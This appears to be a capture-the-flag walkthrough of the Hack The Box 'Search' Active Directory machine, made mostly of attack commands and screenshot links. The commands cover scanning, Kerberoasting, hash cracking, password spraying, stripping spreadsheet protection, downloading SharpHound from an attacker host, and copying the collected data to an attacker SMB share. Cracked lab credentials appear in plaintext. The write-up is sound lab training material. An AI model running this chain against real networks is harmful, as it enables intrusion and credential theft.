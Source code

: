 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699143-58aa6593-510f-4de6-be67-cbf555c08f22.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.129/FUZZ -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/230701612-546d5a49-33f8-4063-8d96-72d2d45f9cfe.png)


hope.sharp | IsolationIsKey?

![image](https://user-images.githubusercontent.com/33616880/230699047-df9e814d-0ef6-4377-97bd-72824e5dd6e5.png)


```
smbclient -L \\\\10.10.11.129\\ -U search.htb/hope.sharp
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
```
![image](https://user-images.githubusercontent.com/33616880/230700602-75be21ee-a7d1-4ed8-8465-1a226ae419f0.png)
![image](https://user-images.githubusercontent.com/33616880/230700731-c773018c-6f8d-4ed7-8812-ced8a52b3d05.png)


```
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699359-15a9ef35-6723-4822-b1e6-ab93ec59e2cb.png)
![image](https://user-images.githubusercontent.com/33616880/230699421-3b664dda-82d1-473a-8c1f-2b29de81fb90.png)


```
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
```
![image](https://user-images.githubusercontent.com/33616880/230699598-ab7213a0-fb91-4395-a5b0-345b7e2fb34a.png)


```
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
```
web_svc | @3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230699690-2850b510-c824-49fa-a20f-c4a3044c0fc1.png)


![image](https://user-images.githubusercontent.com/33616880/230699760-4770c7a8-b7ee-4a9d-9398-d2298e8863e4.png)


```
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
```
![image](https://user-images.githubusercontent.com/33616880/230700117-68ed59b8-9ab2-4831-be38-7421ada171f7.png)



```
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
```
search.htb\Edgar.Jacobs:@3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230700260-1809d1ec-e297-4d00-9ba5-5213526fed84.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Edgar.Jacobs
```
![image](https://user-images.githubusercontent.com/33616880/230700969-8a257621-812a-4357-b398-5949598ce182.png)


![image](https://user-images.githubusercontent.com/33616880/230701046-18ec17fc-1694-4a03-9a76-90f26e1ae622.png)
```
unzip Phishing_Attempt.xlsx
sed -i 's/<sheetProtection[^>]*>//' xl/worksheets/sheet2.xml
zip -fr Phishing_Attempt.xlsx *
```
Sierra.Frye | $$49=wide=STRAIGHT=jordan=28$$18

![image](https://user-images.githubusercontent.com/33616880/230701177-73c2b4d3-8c15-4e0d-9930-900c7ce19fcf.png)
![image](https://user-images.githubusercontent.com/33616880/230701253-86e219b9-7f85-4d24-a73a-479962c1c0fa.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Sierra.Frye
```
![image](https://user-images.githubusercontent.com/33616880/230701438-ca0a0370-ad85-4b25-bb67-c9491f61bde8.png)
![image](https://user-images.githubusercontent.com/33616880/230701452-c57c8661-21de-4ef7-bc42-0e57ef04ab48.png)
![image](https://user-images.githubusercontent.com/33616880/230701555-c290fc03-b77a-4471-8dbf-3ebf49ad7348.png)



![image](https://user-images.githubusercontent.com/33616880/230701672-0cf8bba7-d1d6-442d-b859-5371cf1395d7.png)
![image](https://user-images.githubusercontent.com/33616880/230701705-26df0b61-24f9-4d58-a34f-b7830a9f3358.png)
```
pfx2john staff.pfx > pfx_hash
john pfx_hash -w=/usr/share/wordlists/rockyou.txt
```
![image](https://user-images.githubusercontent.com/33616880/230701880-f44b38ab-db4a-45e3-9544-d36bb638e82f.png)
![image](https://user-images.githubusercontent.com/33616880/230701923-cfcd0109-1539-44e5-94e6-5200460228e7.png)


![image](https://user-images.githubusercontent.com/33616880/230702031-e7010f86-fe69-4c70-897d-f3312121b1b4.png)
```
python3 -m http.server 80
wget 10.10.14.4/SharpHound.exe -o SharpHound.exe
./SharpHound.exe
```
![image](https://user-images.githubusercontent.com/33616880/230702230-01468743-51b4-4de4-8cc5-d551ec9d23b7.png)
![image](https://user-images.githubusercontent.com/33616880/230702368-31f4bfd3-58cc-41fd-a2d2-6ffa6264cda3.png)



```
./smbserver.py share . -smb2support -username df -password df
```
```
net use \\10.10.14.4\share /u:df df
copy 20230408050326_BloodHound.zip \\10.10.14.4\share\
```
![image](https://user-images.githubusercontent.com/33616880/230702582-cbaa9574-1756-4d57-9405-98a64c26d111.png)
![image](https://user-images.githubusercontent.com/33616880/230702543-ff4a81d9-d0e4-4c98-a178-ecd3f25e694f.png)


```
neo4j console
```
```
./BloodHound --no-sandbox
```
![image](https://user-images.githubusercontent.com/33616880/230702699-6fd438f6-781c-4644-85b6-772e17713fd8.png)


mark user as owned

shortest to admin

![image](https://user-images.githubusercontent.com/33616880/230702940-0fd2b84e-cecb-40f6-9f23-9e64f4a29a64.png)



![image](https://user-images.githubusercontent.com/33616880/230703076-28fdc717-d1b7-4ea9-94bd-1c35d378850e.png)
![image](https://user-images.githubusercontent.com/33616880/230703110-45490071-b360-4172-91bf-735b46483878.png)
